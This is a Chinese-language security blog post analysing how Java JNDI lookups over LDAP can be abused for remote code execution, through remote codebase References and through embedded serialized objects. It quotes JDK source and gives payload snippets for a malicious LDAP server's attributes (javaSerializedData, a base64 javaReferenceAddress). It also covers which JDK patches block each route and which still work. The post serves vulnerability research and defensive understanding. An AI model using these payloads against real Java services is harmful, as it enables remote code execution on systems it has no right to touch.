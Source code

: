 ```yaml
---
title: JNDI with LDAP
tags: 
  - java
categories: notes
date: 2020-03-01 19:22:01
typora-root-url: ../../../source
---
```


## 0x00 前言

JNDI的SPI层除了RMI外，还可以跟LDAP交互。与RMI类似，LDAP也能同样返回一个Reference给JNDI的Naming Manager，本文将讲述JNDI使用ldap协议的两个攻击面XD

<!-- more -->

## 0x01 LDAP基础

关于LDAP的介绍，延伸阅读一下[这篇](https://www.cnblogs.com/wilburxu/p/9174353.html)

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:
>
> ● Using Java serialization
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html
> ● Using JNDI References
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html
>
> from https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

Java中的LDAP可以在属性值中存储相关的Java对象，可以存储如上两种对象，而相关的问题就是出现在这部分上。

后文用的LDAP Server参考的是[mbechler 实现的LDAPRefServer](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)，连接的客户端Client直接用JNDI的lookup完成，jdk版本jdk8u162

```java
Context ctx = new InitialContext();
ctx.lookup("ldap://127.0.0.1:1389/EvilObj");
ctx.close();
```

## 0x02 LDAP with JDNI References

JNDI发起ldap的lookup后，将有如下的调用流程，这里我们直接来关注，获得远程LDAP Server的Entry之后，Client这边是怎么做处理的

![image-20200301142213589](assets/jndi-with-ldap-20200301/image-20200301142213589.png)

跟进com/sun/jndi/ldap/Obj.java#decodeObject，按照该函数的注释来看，其主要功能是解码从LDAP Server来的对象，该对象可能是序列化的对象，也可能是一个Reference对象。关于序列化对象的处理，我们看后面一节。这里摘取了Reference的处理方式：

```java
static Object decodeObject(Attributes attrs)
    throws NamingException {
    Attribute attr;
    // Get codebase, which is used in all 3 cases.
    String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
    try {
        // ...
        attr = attrs.get(JAVA_ATTRIBUTES[OBJECT_CLASS]);// "objectClass"
        if (attr != null &&
            (attr.contains(JAVA_OBJECT_CLASSES[REF_OBJECT]) || // "javaNamingReference"
                attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) { // "javanamingreference"
            return decodeReference(attrs, codebases);
        }
      //...
```

如果LDAP Server返回的属性里包括了`objectClass`和`javaNamingReference`，将进入Reference的处理函数decodeReference上

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[CLASSNAME])) != null) {
    className = (String)attr.get();
} else {
    throw new InvalidAttributesException(JAVA_ATTRIBUTES[CLASSNAME] +
                " attribute is required");
}

if ((attr = attrs.get(JAVA_ATTRIBUTES[FACTORY])) != null) {
    factory = (String)attr.get();
}

Reference ref = new Reference(className, factory,
    (codebases != null? codebases[0] : null));
```

decodeReference再从属性中提取出`javaClassName`和`javaFactory`，最后将生成一个Reference。这里如果看过我前面的那篇[jndi-with-rmi](http://blog.0kami.cn/2020/02/09/jndi-with-rmi/)，可以看到其实这里生成的ref就是我们在RMI返回的那个ReferenceWrapper，后面这个ref将会传递给Naming Manager去处理，包括从codebase中获取class文件并载入。

而这里LDAP也类似，处理ref的对象是NamingManager的子类javax/naming/spi/DirectoryManager.java，因为跟RMI有点类似不具体分析了，最后同样由javax/naming/spi/NamingManager.java#getObjectFactoryFromReference来处理。

到这里，我们再来看mbechler 实现的LDAPRefServer就比较清楚了

![image-20200301144715061](assets/jndi-with-ldap-20200301/image-20200301144715061.png)

当其获取到LDAP连接时，将填充如上的几个属性及其对应的值，就是为了满足上面的条件而生成一个Reference对象。

## 0x03 LDAP with Serialized Object

JNDI对于属性中的序列化数据的处理一共有两个地方，我们先来顺着前面的JNDI Reference的思路说下去

#### 第一处：com/sun/jndi/ldap/Obj.java#decodeObject

在com/sun/jndi/ldap/Obj.java#decodeObject上还存在一个判断

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) {// “javaSerializedData”
    ClassLoader cl = helper.getURLClassLoader(codebases);
    return deserializeObject((byte[])attr.get(), cl);
}
```

如果在返回的属性中存在`javaSerializedData`，将继续调用`deserializeObject`函数，该函数主要就是调用常规的反序列化方式readObject对序列化数据进行还原，如下payload。

```java
@Override
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaSerializedData", serialized);
}
```

这里我们就不需要通过远程codebase的方式来达成RCE，当然首先本地环境上需要有反序列化利用链所依赖的库文件。

#### 第二处：com/sun/jndi/ldap/Obj.java#decodeReference

`decodeReference`函数在对普通的Reference还原的基础上，还可以进一步对RefAddress做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足RefAddress的方式，也可以达到上面第一种的效果。

具体代码太长了，这里我就说一下条件：

1. 第一个字符为分隔符
2. 第一个分隔符与第二个分隔符之间，表示Reference的position，为int类型
3. 第二个分隔符与第三个分隔符之间，表示type，类型
4. 第三个分隔符是双分隔符的形式，则进入反序列化的操作
5. 序列化数据用base64编码

满足上面的条件，构造一个类似的

```java
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serialized));
  entry.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
}
```

当然第二处只是一个锦上添花的步骤，我们可以直接用第一种方法，第二种在第一种不能用的情况下可以试试。

## 0x04 后续

自[jdk8u191-b02](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/rev/2db6890a9567#l1.33)版本后，新添加了`com.sun.jndi.ldap.object.trustURLCodebase`默认为false的限制，也就意味着远程codebase的Reference方式被限制死了，我们只能通过SerializedData的方法来达成利用。

我们来整理一下，关于jndi的相关安全更新

* JDK 6u132, JDK 7u122, JDK 8u113中添加了com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false。

  **导致jndi的rmi reference方式失效，但ldap的reference方式仍然可行**

* Oracle JDK 11.0.1、8u191、7u201、6u211之后 `com.sun.jndi.ldap.object.trustURLCodebase `属性的默认值被调整为false。

  **导致jndi的ldap reference方式失效，到这里为止，远程codebase的方式基本失效，除非认为设为true**

而在最新版的jdk8u上，jndi ldap的本地反序列化利用链[1](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l239)和[2](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l478)的方式仍然未失效，jndi rmi底层(JRMPListener)[StreamRemoteCall](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/sun/rmi/transport/StreamRemoteCall.java#l270)的本地利用方式仍未失效。

所以如果Reference的方式不行的时候，可以试试利用本地ClassPath里的反序列化利用链来达成RCE。

## 0x05 总结

JNDI和LDAP的结合，出现了2种利用方式，一是利用远程codebase的方式，二是利用本地ClassPath里的反序列化利用链。在最新版的jdk8u中，codebase的方式依赖`com.sun.jndi.ldap.object.trustURLCodebase`的值，而第二种方式仍未失效。

LDAP的使用方法除了JNDI的lookup，其他的库也会有相应的使用方法，如Spring的ldap，这里还可以继续深入下去，先挖个坑XD

最后，上面的两个ldap Server更新到了[github](https://github.com/wh1t3p1g/ysomap)上，自取XD
